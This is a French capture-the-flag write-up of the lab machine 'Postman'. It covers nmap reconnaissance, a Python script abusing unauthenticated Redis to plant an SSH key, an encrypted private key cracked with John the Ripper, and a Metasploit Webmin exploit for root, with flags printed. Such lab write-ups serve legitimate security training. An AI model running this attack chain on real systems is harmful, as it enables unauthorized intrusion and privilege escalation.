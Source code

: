 Write-Up pour la machine : POSTMAN


Postman est une machine identifiée comme "easy".


1). Nmap
Nous commencerons par une phase de reconnaissance à l'aide de Nmap avec la commande `nmap -sV -T4 -v 10.10.10.160`
    -sV : permet de sonder les ports pour déterminer le service et la version derrière le port.
    -T4 : Determine le timing de l'attaque (sa vitesse)
    -v : pour avoir une sortie davantage verbeuse.
    -p- : permet de scanner tous les ports (0-65 535)



2). Exploitation
Nous avons un serveur SSH en écoute sur le port 22
Nous avons un serveur web en écoute sur le port 80
Nous avons un serveur redis en écoute sur le port 6379
Nous avons un Webmin en écoute sur le port 10000

Redis est en version 4.09, ce qui permet l'execution de code a distance sans être authentifié.

Pour cela j'ai utilisé un petit script en python. Il permet d'injecter une clé RSA précedemment générée et de se connecter ensuite.

Pour cela `python redis.py 10.10.10.160 redis`
Voici un petit extrait :
```python
cmd = "redis-cli -h " + ip_address + ' flushall'
cmd1 = "redis-cli -h " + ip_address
os.system(cmd)
cmd2 = "cat $HOME/.ssh/public_key.txt | redis-cli -h " +  ip_address + ' -x set cracklist'
os.system(cmd2)
cmd3 = cmd1 + ' config set dbfilename "backup.db" '
cmd4 = cmd1 + ' config set  dir' + " /home/"+username+"/.ssh/"
cmd5 = cmd1 + ' config set dbfilename "authorized_keys" '
cmd6 = cmd1 + ' save'
os.system(cmd3)
os.system(cmd4)
os.system(cmd5)
os.system(cmd6)
```

Avec un `cat /etc/passwd` nous voyons un utilisateur Matt :
```
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
```

Je décide donc de faire un `find / -user Matt 2>/dev/null`
On voit rapidement un fichier intéressant `/opt/id_rsa.bak`
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

J'utilise ssh2john.py pour formater la clé dans un format compréhensible par JTR.

`./run/ssh2john.py ../key >> ~/Bureau/key_format_john`


J'execute ensuite `john key_format_john --wordlist=/usr/share/wordlists/rockyou.txt`
Resultat : `computer2008`

Il ne reste plus qu'a faire
`redis@Postman:~$ su Matt`
`cat ~/user.txt`
FLAG user : 517ad0ec2458ca97af8d93aac08a2f3c


Passons a présent au Root user.
Il y'a une CVE dans Webmin permettant de devenir Root avec un utilisateur présent dans le système Linux pour cela nous allons utiliser `Matt` et son password `computer2008`

Pour cela nous allons utiliser Metasploit.

```
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
msf5 exploit(linux/http/webmin_packageup_rce) > exploit
```

```
id
uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

FLAG Root : a257741c5bed8be7778c6ed95686ddce

